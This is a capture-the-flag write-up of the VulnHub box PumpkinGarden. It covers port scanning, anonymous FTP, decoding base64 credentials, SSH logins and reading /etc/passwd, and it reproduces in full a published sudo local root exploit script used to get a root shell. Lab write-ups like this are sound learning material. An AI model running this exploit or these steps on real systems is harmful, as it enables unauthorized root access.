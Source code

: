 ## Mission-Pumpkin v1.0: PumpkinGarden

The series took my eye on vulnhub, so I decided to [check them out.](https://www.vulnhub.com/?q=pumpkin) 

![Image](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-10.png)

### Finding out the IP-Adress

This time it was very easy - the vm itself showed it on the welcome screen.

The IP I had to deal with was 192.168.178.59

### Looking for open doors

I fired up Zenmap (yeah I know, but I really like the GUI) to take a closer look at open ports.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-19.png)

So there is nothing but a ftp-server. Let's check it out.

vsftp (very secure ftp) supports often an anonymous login. Thats what I tried first:

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-13.png)

Because I never worked with ftp like this before i messed up with the commands a little.
But in the end I got what I wanted.

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-12.png)

That note.txt said:
```markdown
Hello Dear! 
Looking for route map to PumpkinGarden? I think jack can help you find it.
````
Who the heck is Jack?
Maybe this is a username or something like that. I'll save that for later.
Because I didn't know what to search for, I decided to fire up Zenmap again, but this time with a larger portrange.
Bingo!
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-14.png)

Now I got a fileserver, a webserver and ssh. Thats a step ahead. Let's check out the webserver.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-15.png)

It says `the route map to PumpkinGarden is somewhere under the hood`. 
That made me take a closer look at the sourcecode.

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-16.png)

That went well. But what does it mean? This ist an absolute beginner vm, so I didn't think it's talking about steganography.
I took a closer look at the image, but found nothing. Except the path where it is stored.
`192.168.178.59:1515/images`
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-18.png)

`hidden_secret` sounds good. After opening that directory, I found a textfile (clue.txt).

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-1.png)

That looks like a hash or some other type of decoded text. I ran it through hash-identifier, but there were no results.
Next possibility that came to my mind was base64.

`echo c2NhcmVjcm93IDogNVFuQCR5 | base64 -d`

Voilá `scarecrow : 5Qn@$y`

That looks like a set of credentials. Maybe they work for SSH?

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-2.png)

Oh yes, they do. First big step is done, were inside of the vm.

After running the `ls -la` Command, I recognized a file called note.txt.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-3.png)

Goblin? What for a goblin? Is this another username for ssh?
A quick check of `/etc/passwd` revealed that I assumed this correctly.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-4.png)

Let's try if that awkward string is the password for goblin.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-5.png)

I'm running `ls -la` again and was presented with another note.txt.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-6.png)

That sounds very good, but unfortunately it was a dead end because the site threw up a 404 Error.
Damn! After a couple of minutes spending on google I found out that this exploit was a bash script, which escalates us to root.
Here's the script:
````
#!/bin/sh
# Tod Miller Sudo 1.6.x before 1.6.9p21 and 1.7.x before 1.7.2p4
# local root exploit
# March 2010
# automated by kingcope
# Full Credits to Slouching
echo Tod Miller Sudo local root exploit
echo by Slouching
echo automated by kingcope
if [ $# != 1 ]
then
echo "usage ./sudoxpl.sh <file you have permission to edit>"
exit
fi
# cd /tmp
cat > sudoedit << _EOF
#!/bin/sh
echo ALEX-ALEX
su
/bin/su
/usr/bin/su
_EOF
chmod a+x ./sudoedit $1
````
I went to `/tmp` to create the file and run it, but it didn't work.

Why? Maybe I should run this as scarecrow.

Nope, that won't work eiter. But what now?

I logged in again as goblin an run `ps -aux` which shows all current running processes.

There was a damn script running, which empties `/tmp` and `/home/goblin` every 15 seconds.

Ok, I had to create the script, change the permissions that I could execute it and run it within 15 secs.

I needed a few tries, but with the correct commands in my bash history I could accomplish that.

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-7.png)

# BAM there it is - the root shell!

Running `ls -la` again showed me that there is a PumpkinGarden_Key file.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-8.png)

This is a base64 string again. So i echoed it into the base64 decoder.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-9.png)

That's it! I really had fun with that box! Can't wait to take a closer look at part II of the series.

Thanky for reading and happy pwning!
